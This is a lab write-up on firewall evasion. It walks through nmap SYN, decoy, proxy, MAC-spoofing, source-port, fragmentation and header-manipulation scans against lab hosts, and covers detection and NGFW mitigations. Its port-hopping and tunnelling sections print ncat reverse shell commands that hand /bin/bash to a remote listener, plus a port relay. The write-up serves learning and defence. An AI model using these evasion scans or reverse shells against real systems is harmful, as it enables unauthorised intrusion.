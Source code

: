 # Firewall Evasion

A firewall is software or hardware that monitors the network traffic and compares it against a set of rules before passing or blocking it. One simple analogy is a guard or gatekeeper at the entrance of an event. This gatekeeper can check the ID of individuals against a list of allowed individuals before letting them enter (or leave).

![Pasted image 20240920140126](https://github.com/user-attachments/assets/e35edcc5-908a-4162-a05a-39b6ef3b888c)

Different types of firewalls are capable of inspecting various packet fields; however, the most basic firewall should be able to inspect at least the following fields:

+ Protocol
+ Source Address
+ Destination Address

Depending on the protocol field, the data in the IP datagram can be one of many options. Three common protocols are:

+ TCP
+ UDP
+ ICMP

![Pasted image 20240920140306](https://github.com/user-attachments/assets/d3494f55-000e-4af1-aec2-5cfb24f0853c)

In the case of TCP or UDP, the firewall should at least be able to check the TCP and UDP headers for:

+ Source Port Number
+ Destination Port Number

![Pasted image 20240920140426](https://github.com/user-attachments/assets/08e838e9-c9da-4da6-ab47-031de5b174e9)

In traditional firewalls (packet-filtering firewalls), everything is allowed and blocked mainly based on the following:

+ Protocol, such as TCP, UDP, and ICMP
+ IP source address
+ IP destination address
+ Source TCP or UDP port number
+ Destination TCP or UDP port number

### Scope:

While firewalls are crucial for network security and provide significant protection, they aren’t foolproof.In this exercise, I will go over several ways to evade a firewall. I will cover the following:

<details>
<summary><h3>Incomplete TCP Handshake<h3></summary>

The 3-way handshake is the process used to establish a TCP connection between a client and a server. It involves three steps: SYN, SYN-ACK, and ACK.  A half-open connection occurs when a connection is initiated but not fully established. 

![Pasted image 20240920150311](https://github.com/user-attachments/assets/76b0924e-ad3f-41be-91aa-b4c4a39b71e4)

Here I will be utilizing nmap to send half open connections to my target IP 10.10.100.39 (Windows Firewall):

```
nmap  -sS -F 10.10.100.39 -nnvvv
```

Based on the output of the scan, I was able to identify that TCP port 5357 was open associated with the service WSDAPI:

![Pasted image 20240920145403](https://github.com/user-attachments/assets/619458cd-ce8c-4d8d-b26f-209566273074)

Looking at the nmap scan traffic in Wireshark, I was able to see the behavior of the scan in real time:

![Pasted image 20240920145126](https://github.com/user-attachments/assets/33b349ad-f2df-4051-987b-edcf71e98661)

Here I can see that IP address 10.10.100.104 has generated and sent around 200 packets. The -F option in the command limits the scan to the top 100 common ports; moreover, each port is sent a second SYN packet if it does not reply to the first one. The source port number is chosen at random but is fixed. In the screenshot, you can see it is 63871

The total length of the IP packet is 44 bytes. There are 20 bytes for the IP header, which leaves 24 bytes for the TCP header. No data is sent via TCP.

Other factors observed in the traffic:

+ The Time to Live (TTL) is is changing in each packet.
+ The IP identification is changing is each packet
+ No errors are introduced in the checksum.

In this scenario, nmap sends a SYN request to the target, if the port is open, the target responds with a SYN-ACK packet, acknowledging the request to establish a connection. Normally, in a ligitimate request, the scanner would then complete the request with an ACK to complete the handshake. In this case, the target host has already shown which port is open. If nmap were to complete the connection, it would then have to worry about closing it. Instead of sending an ACK back to complete the handshake, the scanner sends an RST packet to close the connection prematurely.

In the screenshot below, we see the bahavior describe above for port 5357 which was previously identified:

![Pasted image 20240920150341](https://github.com/user-attachments/assets/eafc0b47-59aa-4925-8289-8439f6a8068c)

Nmap will classify a port as filtered if it receives specific ICMP error messages in response as seen in the screenshot below:

![Pasted image 20240920150957](https://github.com/user-attachments/assets/e1765030-7234-439f-a99f-399779d2af0c)

> [!NOTE]  
> Below is a summary of how nmap will interpret responses to a SYN probe:
> ![Pasted image 20240920151122](https://github.com/user-attachments/assets/744cf0e9-d6d7-4618-b3b3-1215258f27e0)

</details>

<details>
<summary><h3>Nmap Decoy Scan<h3></summary>

You onceal the scan using decoys. In an Nmap decoy scan, multiple decoy IP addresses are used alongside the real IP address to obfuscate the source of the scan. This makes it challenging for both the firewall and the target host to identify the origin of the port scan. 

Here I will use the following command with the decoy option to "hide" my real IP address:

```
nmap -sS -Pn -D 192.168.91.10,192.168.91.15,192.168.91.128 -F 192.168.91.130
```

After initiating the scan, I can see that it completes and that the target has a number of open ports:

![Pasted image 20240921123114](https://github.com/user-attachments/assets/42da0b3f-e28f-4619-992f-be24308e6307)

While looking at the Wireshark capture of the scan, I can see the expected behavior. Here we see that all 3 of the IP addresses in the command are reaching out with a SYN request to the host:

![Pasted image 20240921123403](https://github.com/user-attachments/assets/5550db8d-d32b-4240-b9f6-2ac22cae96d7)

However, one thing that we can note from the traffic above, although there are 3 different IP addresses sending SYN requests, only 1 sends the RST (the real IP). 

Another example of this is by setting Nmap to use random source IP addresses instead of explicitly specifying them:

```
map -sS -Pn -D RND,RND,192.168.91.128 -F 192.168.91.130
```

![Pasted image 20240921124912](https://github.com/user-attachments/assets/551b29ec-e9be-40a0-ac69-6fec116d136f)

### Finding the real IP behind the Decoy scan:

As noted earlier, only the real IP is linked to the RST packet. Another method for identifying the true source is that the target will send RST packets exclusively to this real IP address:

![Pasted image 20240921123604](https://github.com/user-attachments/assets/e07821b9-850d-4918-9447-6687f2277828)

When the target responds to the initial SYN requests, it may send back ACK packets if the port is open, but these responses will only reach the actual source IP. 

![Pasted image 20240921124326](https://github.com/user-attachments/assets/5a732df1-4476-46ac-a1a4-1ac630870b3d)

Here is a view of this behavior wiht a sinfle IP:

![Pasted image 20240921124444](https://github.com/user-attachments/assets/4ad665af-995a-4935-9834-185bec36878f)

### Summary:

Firewalls often look for unusual patterns of activity. A decoy scan can generate a seemingly normal level of traffic from various sources, making it less likely for the real scan to be flagged as suspicious.

In some cases, decoy scans can utilize IP spoofing techniques to make the decoy addresses appear legitimate, further complicating the firewall's ability to identify the real source.

</details>

<details>
<summary><h3>Evasion via HTTP Proxy<h3></summary>

For this scenario I set up a Netcat HTTP Proxy for NMAP:

![Pasted image 20240922143053](https://github.com/user-attachments/assets/c6d5437f-9d25-45f6-b235-d8b7dd290ad4)

I set it up and had it configured to listen on port 8081:

```
ncat -vv --listen 8081 --proxy-type http
```

![Pasted image 20240921201927](https://github.com/user-attachments/assets/9072c443-7501-4949-a0fc-cb8dd0ce8b06)

Verified that it was indeed listening:

![Pasted image 20240921201907](https://github.com/user-attachments/assets/297099b9-ed7a-4112-9ee0-b6a81f3b8975)

Next I performed a TCP Connect Scan (-sT):

A TCP Connect Scan is similar to that of a SYN scan. However, instead of aborting the half-open connection with a RST packet, it attempts to establish a full TCP connection with each port on the target machine. After the connection is successful, the scanner wil terminates the connection immediately with a RST packet. Below is a image to represent tis behavior:

<img width="717" alt="Screenshot 2024-10-25 at 8 59 04 PM" src="https://github.com/user-attachments/assets/27ebb0e2-af9c-4930-be8f-7f762b63bf94">

>#### Note: To use the --proxies option with Nmap, you need to include at least two scan techniques, such as -sT, -A, -sC, or -sV. Otherwise, Nmap will not be able to route the traffic through the proxy.

```
nmap  -sC -sV -Pn -p80  --proxies http://192.168.91.131:8081 192.168.91.130 --packet-trace -nnvvvv
```

![Pasted image 20240921204322](https://github.com/user-attachments/assets/62e12b62-9912-43bf-a773-2afd073c998e)

Traffic from the local nmap scanner:

![Pasted image 20240921204246](https://github.com/user-attachments/assets/e0e3f004-497a-4744-9a02-1b9fc9d74cf1)

I also used the `--packet-trace` option to information about the state of the connection:
 
![Pasted image 20240921211331](https://github.com/user-attachments/assets/3237440f-55fc-4d97-be9c-437237eb8eca)

Here I can see information on the target host such as open ports and running services:

![Pasted image 20240921211420](https://github.com/user-attachments/assets/a08cf613-21f6-4859-9304-d9cf94846c15)

### Detecting Scans via Proxy Servers:

Although there isn't a 100% reliable way to achieve this, there are indicators that can be seen in the headers that when present, can suggest that the request was routed from a proxy server:

+ via
+ forwarded
+ x-forwarded-for
+ client-ip: 

In trying to see how the traffic looks on the receiving end, I went to check the Wireshark traffic on the IIS (target) server: 

![Pasted image 20240921203356](https://github.com/user-attachments/assets/21462aab-9c7d-4186-97dc-a3a7c513aca9)

The CONNECT method is an HTTP request method used primarily to establish a tunnel to a server through an HTTP proxy. Taking a closer look into the traffic, I was able to see that here:

![Pasted image 20240921203332](https://github.com/user-attachments/assets/bb730138-3adf-44cf-ba54-ee4595caab34)

![Pasted image 20240921205656](https://github.com/user-attachments/assets/f58f190f-ec6f-455a-ab4f-2384592fcbc0)

### Summary:

In this exercise, I was successfully able to scan node 192.168.91.130 and detect it's operating system (Windows) and the service running (IIS Web Server) via a proxy sever using Nmap.

</details>

<details>
<summary><h3>Mac Spoofing<h3></summary>

![Pasted image 20240922170340](https://github.com/user-attachments/assets/56585a8a-ff25-44c5-9cc5-52c07312abb5)

MAC spoofing is a technique often used by attackers to change the MAC address of their device to match that of another device on the network. This vulnerability allows them to evade security measures like MAC filtering and MAC-based access controls. Mac Spoofing can circumvent MAC filtering, allowing them to gain unauthorized access to the network by pretending to be a trusted device.

Below is a look at the frame and where both the destination and source MAC addresses can be found:

![Pasted image 20240921231109](https://github.com/user-attachments/assets/700bb0b7-b9d9-4682-98f3-ed9d2d3c7c5b)

Nmap allows you to spoof your MAC address using the option `--spoof-mac MAC_ADDRESS`. However, there are limitations. Spoofing works effectively only if your system is on the same network segment as the target host. If you are on a different network segment the target system will not receive your packets. Spoofing your MAC address to match a trusted device can potentially allow you to exploit vulnerabilities or gain unauthorized access.

In the exercise, I used the command below:

```
nmap -sS -Pn -p80 --spoof-mac deadbeef 192.168.91.130 --packet-trace --disable-arp-ping -nnvv
```

By using this command, I can see that my MAC address now includes `deadbeef`:

![Pasted image 20240921230527](https://github.com/user-attachments/assets/facb1002-5280-4bd5-89b5-732824af73ce)

In the Wireshark capture, I was also able to confirm that the MAC address had changed:

![Pasted image 20240921230718](https://github.com/user-attachments/assets/a251a877-a9e8-4e85-ab34-90d28bc730be)

### Warning Signs/Detection of MAC Spoofing Attacks:

Below is an example of how MAC spoofing looks in the network traffic. Here I analyzed traffic between the same 2 IP addresses, however, in the highlighted piece we can see that the MAC address changes:

![Pasted image 20240922171738](https://github.com/user-attachments/assets/bb17da92-de21-4b55-b473-710b8a522097)

Here are various red flags that may point to a MAC spoofing attack on a network. Some of these warnings include:

+ Duplicate MAC addresses
+ Unknown MAC addresses
+ Unusual ARP Activity
+ Unexpected network failures 

</details>

<details>
<summary><h3>Fixed Port Number<h3></summary>

Scanning from a specific source port can be advantageous if you find that firewalls permit incoming packets from certain ports, such as 53 or 80. This strategy can help you navigate around firewall restrictions more effectively. 

### Firewall Rule

To get started, I created a firewall rule to allow traffic on the IIS server from a specific source port. To do this, I navigated to the Windows host and created a new firewall rule:

![Pasted image 20240922150229](https://github.com/user-attachments/assets/4613d30d-882b-471d-a75f-103032a94dbc)

![Pasted image 20240922150315](https://github.com/user-attachments/assets/4a644684-06b5-457b-999d-4b53d3fa4cab)

I then configured the rule do that the only allow traffic from specific source ports (8000 and 9999):

![Pasted image 20240922150726](https://github.com/user-attachments/assets/ba81035e-031a-48ea-a96d-d556854be2fa)

This rule will apply to all IPs:

![Pasted image 20240922150815](https://github.com/user-attachments/assets/5251819b-ec88-428d-9c58-631921b48f5d)

Allowed the connection:

![Pasted image 20240922150902](https://github.com/user-attachments/assets/7077eb7d-95b7-4ec6-8fc5-4ad6d1e62051)

![Pasted image 20240922150941](https://github.com/user-attachments/assets/eb58b0f1-ca6e-485d-9203-16436dcde6a1)

Named the rule:

![Pasted image 20240922151127](https://github.com/user-attachments/assets/4a39870e-4087-449e-8325-d1aa9ca6fab4)

I then confirmed the rule was in place:

![Pasted image 20240922151204](https://github.com/user-attachments/assets/fd9dee17-0ad4-437a-a9cf-cb566d716d9a)

### Testing

Now that the rule is configured, I tested against the firewall rule with Nmap:

```
nmap -sS -Pn -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922151449](https://github.com/user-attachments/assets/c861c976-65e3-4dba-978e-793537d0725f)

Based on the output from the scan, the port is showing as filtered since the traffic will be only allowed if its coming from a specific port number. I then ran another scan but, this time specifying a source port using the option `--source-port`:

```
nmap -sS -Pn --source-port 9999 -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922151741](https://github.com/user-attachments/assets/ce251585-a9d1-4647-8de4-979c3d04fe0e)

Based on the output, I can now see that the port is showing as open. 

</details>

<details>
<summary><h3>Evasion via Fragmentation, MTU, and Data Length<h3></summary>


Another way that you can evade a firewall is by controlling the packet size. By fragmenting packets, if neither the firewall nor the IDS/IPS reassemble the packet, it will most likely let it pass. This will make it so taht the target system will reassemble and process it.

### Fragmenting (8 Bytes)

One easy way to fragment your packets would be to use the -f option. This option will fragment the IP packet to carry only 8 bytes of data. Normally, the IP packets sent during a Nmap TCP port scan will hold 24 bytes, the TCP header. By limiting the IP data to 8 bytes, the 24 bytes of the TCP header will be divided across 3 IP packets.

```
nmap -sS -Pn -f 8  -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922154916](https://github.com/user-attachments/assets/e602a2d0-1c0d-40d1-b10e-972ce0b07f29)

Taking a look at Wireshrark and the traffic generated by the scan, I was able to confirm the behavior and the see the fragmentation:

![Pasted image 20240922154837](https://github.com/user-attachments/assets/ced0ab71-ca8e-4a3b-b29e-0190b8d74831)

### Fragmenting (16 Bytes):

Another option is using `-ff` which limits the IP data to 16 bytes. By running the following command `nmap -sS -Pn -ff -F MACHINE_IP`, the expectation is that the 24 bytes of the TCP header will be divided between two packets because `-ff` sets a maximum limit of 16 bytes.

```
nmap -sS -Pn -ff -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922155423](https://github.com/user-attachments/assets/5a09bce4-0f82-4c20-aeb9-a6343c80711a)

After running the scan, I could see the fragmentation and confirmed the size of 16 Bytes:

![Pasted image 20240922155525](https://github.com/user-attachments/assets/37d481e7-0850-4bfe-84cc-4c8f86045e7f)

### Fragmenting MTU:

Another effective way to fragment packets is by adjusting the MTU. In Nmap, the --mtu VALUE option specifies the number of bytes per IP packet, excluding the IP header size. The MTU value must always be a multiple of 8. It's important to know that MTU refers to the largest packet size that can be transmitted over a specific link-layer connection. Ethernet has an MTU of 1500 and is to not be confused with the `--mtu` option in nmap. 

Running Nmap with the option `--mtu 8` will be identical to using option `-f ` since in both the IP data will be limited to 8 bytes.

```
nmap -sS -Pn -mtu 8 -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922155925](https://github.com/user-attachments/assets/741d5d85-2b87-415b-86a7-df01388ce58f)

In Wireshark, I confirmed that the the packets were indeed fragmented, 8 bytes in size, and had the more fragments bit set:

![Pasted image 20240922155907](https://github.com/user-attachments/assets/e15a7300-4130-4730-b6b1-b895178bfb02)

### Packets with Specific Length:

There may be times where the firewall or IDS/IPS is able to detect and block your activities based on the size of the packets being sent. You can enhance the stealth of your port scanning by specifying a particular data length. Nmap allows you to set the length of the data carried within the IP packet using `--data-length VALUE`, the length should be a multiple of 8. As an example, I will be using a length of 64:

```
nmap -sS -Pn --data-length 64  -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922162841](https://github.com/user-attachments/assets/a92f7c89-c3da-4a1c-afe0-9b31b6aafd85)

I was also able to verify that the behavior wasjust as expected in Wireshark:

![Pasted image 20240922162745](https://github.com/user-attachments/assets/e1d6f488-5de0-4f26-83bb-c7eb6bdc7007)

</details>

<details>
<summary><h3>Bad Checksum<h3></summary>

###  Wrong Checksum:

Another method that can be used to evade a firewall is to intentionally send a packet with a bad checksum. There are systems that will drop a packet with a bad checksum, however, there are others that won’t. To do this, nmap has the option `--badsum`:

```
nmap -sS -Pn --badsum -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923113056](https://github.com/user-attachments/assets/ef80ed72-d799-4e50-ab27-0dc743ad0710)

</details>

<details>
<summary><h3>Evasion via Modifying Header Fields<h3></summary>

### Evasion via Modifying Header Fields:

Nmap allows you to control various header fields that might help evade the firewall. You can:

Set IP time-to-live
Send packets with specified IP options
Send packets with a wrong TCP/UDP checksum


### Set TTL :

Nmap gives you further control over the different fields in the IP header. One of the fields you can control is the Time-to-Live (TTL). Nmap options include --ttl VALUE to set the TTL to a custom value. This option might be useful if you think the default TTL exposes your port scan activities.

 nmap -sS -Pn --ttl 1 -p80,3389 192.168.91.130 -nnvvv --packet-trace

![Pasted image 20240923105624](https://github.com/user-attachments/assets/75d7f9ea-d3be-4ad6-8124-e8186a6143eb)


![Pasted image 20240923105749](https://github.com/user-attachments/assets/fa10c75f-ab9b-4554-a4f8-cb24a9945cd9)



### Set IP Options:

One of the IP header fields is the IP Options field. Nmap lets you control the value set in the IP Options field using --ip-options HEX_STRING, where the hex string can specify the bytes you want to use to fill in the IP Options field. Each byte is written as \xHH, where HH represents two hexadecimal digits, i.e., one byte.

A shortcut provided by Nmap is using the letters to make your requests:

R to record-route.

T to record-timestamp.

U to record-route and record-timestamp.

L for loose source routing and needs to be followed by a list of IP addresses separated by space.

S for strict source routing and needs to be followed by a list of IP addresses separated by space.

The loose and strict source routing can be helpful if you want to try to make your packets take a particular route to avoid a specific security system.

nmap -sS -Pn --ip-options R -p80,3389 192.168.91.130 -nnvvv --packet-trace

![Pasted image 20240923112809](https://github.com/user-attachments/assets/e571ab7e-9fc4-40ff-a835-65a46e6b3690)

![Pasted image 20240923112706](https://github.com/user-attachments/assets/61da2c44-109c-4251-92cb-2f5bb7a1814a)

</details>

<details>
<summary><h3>Evasion Using Port Hopping<h3></summary>

 #### Evasion Using Port Hopping:

Three common firewall evasion techniques are:

Port hopping
Port tunneling
Use of non-standard ports

Port hopping is a technique where an application hops from one port to another till it can establish and maintain a connection. In other words, the application might try different ports till it can successfully establish a connection. Some “legitimate” applications use this technique to evade firewalls. In the following, the client kept trying different ports to reach the server till it discovered a destination port not blocked by the firewall.



![Pasted image 20240924211328](https://github.com/user-attachments/assets/ce0ff043-9721-4957-8f62-aadef3175248)


### Setting up a listening our client:

-l listens for incoming connections
-v provides verbose details (optional)
-n does not resolve hostnames via DNS (optional)
-p specifies the port number to use

ncat -lvnp 21

![Pasted image 20240924133907](https://github.com/user-attachments/assets/eff7886b-ecbc-4170-a582-4ef72377c726)


### Connecting to the server:

Network trace from the client reaching the server on port 8080:

![Pasted image 20240924134217](https://github.com/user-attachments/assets/0039045a-ae64-4763-90f1-6262db7c7184)


Note: In this scenario, I'm going to be exploiting a vulnerable service that allows remote code execution (RCE) or a misconfiguration on the web application running on port 8080 to execute some code or command of my choice.


ncat 10.10.142.3 21 -c /bin/bash
![Pasted image 20240924134503](https://github.com/user-attachments/assets/77561853-f084-400a-8585-8f77461eb83f)

The command was executed usefully, we can the Http POST and the  ACK coming from the server 
![Pasted image 20240924134217](https://github.com/user-attachments/assets/e733f554-52c1-48a3-830f-9088e3e7b3c8)


Detail information about the Http POST
![Pasted image 20240924134054](https://github.com/user-attachments/assets/e2ab77dd-b3bd-4309-82a7-803c2397e8cb)



### Detecting a reverse shell from the server:

Tips:

 netstat -anp | grep ESTABLISHED 

This will display all established connections, and the the associated process or program. By filtering for established connections, you can focus on active connections. 

### Netcat network traffic coming from the server:

![Pasted image 20240924134356](https://github.com/user-attachments/assets/3f0787b6-3a76-47a4-9c85-cf34ded5b536)


We can see that the server's firewall is allowing port 21 outbound.  

</details>

<details>
<summary><h3>Evasion Using Port Tunnelling<h3></summary>
#### Evasion Using Port Tunnelling:


Port tunneling is also known as port forwarding and port mapping. In simple terms, this technique forwards the packets sent to one destination port to another destination port. For instance, packets sent to port 80 on one system are forwarded to port 8080 on another system.


Port Tunneling Using Ncat:

![Pasted image 20240924211930](https://github.com/user-attachments/assets/b0c7257e-5a3b-4578-89b0-cac9c37b705f)

### Creating a ncat listening on port 21 on the client:

ncat -lvnp 21

![Pasted image 20240924153722](https://github.com/user-attachments/assets/0a86dada-cfa9-4f16-8e46-4fef33e8a5e7)


### Accessing the webserver and passing the Netcat command to spawn a reverse shell:


ncat 10.10.25.138  21 -e /bin/bash

![Pasted image 20240924160925](https://github.com/user-attachments/assets/3ae5affe-ea8f-435c-a0a1-ca5806c718c1)


Listing available services / ports that are opened:

![Pasted image 20240924160848](https://github.com/user-attachments/assets/3dbd9dc5-ac4a-488a-9ccf-f5efdd619848)


The client can't reach the server over the network on port 80 or 8008.


![Pasted image 20240924163354](https://github.com/user-attachments/assets/de869533-6b2f-47bf-a04d-5cd4c9cdd962)

Since I'm connected to the server via a reverse shell, I can open the local webserver running on port 80

ncat -lvnp 8008 -c "ncat 10.10.90.19 80"


![Pasted image 20240924163735](https://github.com/user-attachments/assets/be94001b-b074-49f1-9359-c598cf6e7f4b)


Now I'm able to reach the server on port 8008 , I can se some 200 codes coming from the web App:

![Pasted image 20240924163942](https://github.com/user-attachments/assets/ecb4a1ec-ea2f-47af-aee7-419875cccee0)



![Pasted image 20240924164127](https://github.com/user-attachments/assets/05f29650-4685-4631-aba3-9e379795630d)


Connection state at the Web-Server show the port are bind:


![Pasted image 20240924164556](https://github.com/user-attachments/assets/a34ec769-abaa-4668-b082-276333c3b4bb)


</details>

<details>
<summary><h3>Evasion via using a non-standard port<h3></summary>

### Evasion Using Non-Standard Ports:

Creating a backdoor via the specified port number that lets you interact with the Bash shell.

-e or --exec executes the given command

/bin/bash location of the command we want to execute

Considering the case that we have a firewall, it is not enough to use ncat to create a backdoor unless we can connect to the listening port number. Moreover, unless we run ncat as a privileged user, root, or using sudo, we cannot use port numbers below 1024.

\
### Mitigations:

Next-Generation Firewall (NGFW:

Traditional firewalls, such as packet-filtering firewalls, expect a port number to dictate the protocol being used and identify the application. Consequently, if you want to block an application, you need to block a port. Unfortunately, this is no longer valid as many applications camouflage themselves using ports assigned for other applications. 


![Pasted image 20240924210345](https://github.com/user-attachments/assets/fcdd09d7-b8dc-4efd-813a-74e6b9305aa9)



In other words, a port number is no longer enough nor reliable to identify the application being used. Add to this the pervasive use of encryption, for example, via SSL/TLS.


![Pasted image 20240924210137](https://github.com/user-attachments/assets/356b1515-1882-496a-9da8-27e824e290fa)

Next-Generation Firewall (NGFW) is designed to handle the new challenges facing modern enterprises. For instance, some of NGFW capabilities include:

Integrate a firewall and a real-time Intrusion Prevention System (IPS). It can stop any detected threat in real-time.

Identify users and their traffic. It can enforce the security policy per-user or per-group basis.

Identify the applications and protocols regardless of the port number being used.

Identify the content being transmitted. It can enforce the security policy in case any violating content is detected.

Ability to decrypt SSL/TLS and SSH traffic. For instance, it restricts evasive techniques built around encryption to transfer malicious files.

A properly configured and deployed NGFW renders many attacks useless.

</details>

11. Evasion via port tunneling
12. 






